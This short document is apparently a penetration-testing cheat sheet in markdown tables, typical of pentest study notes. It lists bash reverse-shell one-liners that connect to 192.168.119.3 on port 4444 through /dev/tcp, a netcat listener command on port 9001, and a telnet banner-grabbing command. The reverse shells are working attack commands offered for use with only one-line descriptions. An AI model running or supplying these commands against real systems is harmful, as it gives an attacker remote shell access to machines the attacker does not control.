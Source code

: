 |**Reverse shells** |**Description**|
|---|---|
|`bash -i >& /dev/tcp/192.168.119.3/4444 0>&1` |Common reverse shell |
|`bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` |If prior shell doesn't work due to Bourne Shell |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |
